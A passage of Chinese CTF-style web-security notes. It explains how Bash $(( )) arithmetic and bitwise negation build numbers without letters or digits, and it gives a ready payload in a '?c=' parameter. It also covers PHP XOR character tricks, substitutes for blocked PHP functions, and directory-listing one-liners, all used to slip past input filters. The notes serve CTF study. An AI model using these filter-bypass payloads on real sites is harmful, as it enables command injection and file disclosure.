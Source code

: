 #### 2.取反运算：

双小括号 (( )) 是 Bash Shell 中专门用来进行整数运算的命令，它的效率很高，写法灵活，是企业运维中常用的运算命令。 通俗地讲，就是将数学运算表达式放在((和))之间。 表达式可以只有一个，也可以有多个，多个表达式之间以逗号,分隔。对于多个表达式的情况，以最后一个表达式的值作为整个 (( ))命令的执行结果。 可以使用$获取 (( )) 命令的结果，这和使用$获得变量值是类似的。 可以在 (( )) 前面加上$符号获取 (( )) 命令的执行结果，也即获取整个表达式的值。以 c=$((a+b)) 为例，即将 a+b 这个表达式的运算结果赋值给变量 c。 注意，类似 c=((a+b)) 这样的写法是错误的，不加$就不能取得表达式的结果。

 

echo ${_} #返回上一次的执行结果

echo $(()) #0

echo $((~$(()))) #~0是-1

$(($((~$(())))$((~$(()))))) #$((-1-1))即$$((-2))是-2

echo $((~-37)) #~-37是36

$(($((~$(())))$((~$(())))))==-2

拆开看

 

$(( $((~$(()))) $((~$(()))) ))

$((~$(())))==-1 中间有两个所以是-2 是相加的 那中间有37个就是-37

然后取反就是36

playload：

？c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))

#### 3.异或运算

这里的异或，指的是php按位异或，在php中，两个字符进行异或操作后，得到的依然是一个字符，所以说当我们想得到a-z中某个字母时，就可以找到两个非字母数字的字符，只要他们俩的异或结果是这个字母即可。而在php中，两个字符进行异或时，会先将字符串转换成ascii码值，再将这个值转换成二进制，然后一位一位的进行按位异或，异或的规则是：1^1=0,1^0=1,0^1=1,0^0=0，简单的来说就是相同为零，不同为一，

### 函数绕过：

1.show_source <===> highlight_file

2.var_dump() <===> var_export()

3.echo <===> print(), printf(), print_r()（将结果通过数组展示）

4.include <===> require,require_once,readfile(不知道怎么运作的，有时候有用)

### PHP列出目录下的文件

```php
1.print_r(scandir(current(localeconv()))); //print_r可替换成：var_dump;var_export;且scandir容易没权限。
2.print_r(glob("/*")); 这里的glob和scandir函数同理,但是无关权限。
3.$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString())." ";}
```
